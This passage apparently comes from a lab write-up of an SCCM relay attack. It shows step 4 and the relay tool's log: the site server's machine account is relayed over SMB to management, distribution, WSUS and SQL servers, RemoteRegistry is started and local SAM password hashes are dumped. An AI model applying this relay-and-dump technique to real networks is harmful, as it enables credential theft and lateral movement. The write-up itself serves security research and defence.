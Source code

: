 
4. Authentication is captured and relayed in the context of the *SCCM.INTERNAL.LAB* site sever and SAM hashes recovered from the target systems:
```
[*] Servers started, waiting for connections
[*] Received connection from LAB/SCCM$ at SCCM, connection will be relayed after re-authentication
[*] SMBD-Thread-5 (process_request_thread): Connection from LAB/SCCM$@10.10.100.9 controlled, attacking target smb://mp.internal.lab
[*] Authenticating against smb://mp.internal.lab as LAB/SCCM$ SUCCEED
[*] SMBD-Thread-5 (process_request_thread): Connection from LAB/SCCM$@10.10.100.9 controlled, attacking target smb://dp.internal.lab
[*] Authenticating against smb://dp.internal.lab as LAB/SCCM$ SUCCEED
[*] SMBD-Thread-5 (process_request_thread): Connection from LAB/SCCM$@10.10.100.9 controlled, attacking target smb://wsus.internal.lab
[*] Authenticating against smb://wsus.internal.lab as LAB/SCCM$ SUCCEED
[*] Service RemoteRegistry is in stopped state
[*] SMBD-Thread-5 (process_request_thread): Connection from LAB/SCCM$@10.10.100.9 controlled, attacking target smb://sql.internal.lab
[*] Starting service RemoteRegistry
[*] Authenticating against smb://sql.internal.lab as LAB/SCCM$ SUCCEED
[*] SMBD-Thread-5 (process_request_thread): Connection from LAB/SCCM$@10.10.100.9 controlled, but there are no more targets left!
[*] Target system bootKey: 0x18857e9d98d6b4af4b37f17387e10d6f
[*] Received connection from LAB/SCCM$ at SCCM, connection will be relayed after re-authentication
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[*] Target system bootKey: 0xc8d88ef826d2fc47e1b3ca4d606f0d8e
[*] Target system bootKey: 0xf81f8be7c4c43d38858d17318ffa025e
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:235cfbc68b5c69f0edbe940ec9952c62:::
[*] Done dumping SAM hashes for host: mp.internal.lab
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:7baa5572c1466854e3ecddc8c58941e3:::
[*] Done dumping SAM hashes for host: wsus.internal.lab
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:26f78b6fd483ddd6c54497e6ffbffbc2:::
[*] Done dumping SAM hashes for host: sql.internal.lab
[*] Target system bootKey: 0xd53a55d9f3e6936f8ec20d5ed7288c29
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6d27d961da4a806f274e042f38ee0d34:::
[*] Done dumping SAM hashes for host: dp.internal.lab
[*] Stopping service RemoteRegistry

```
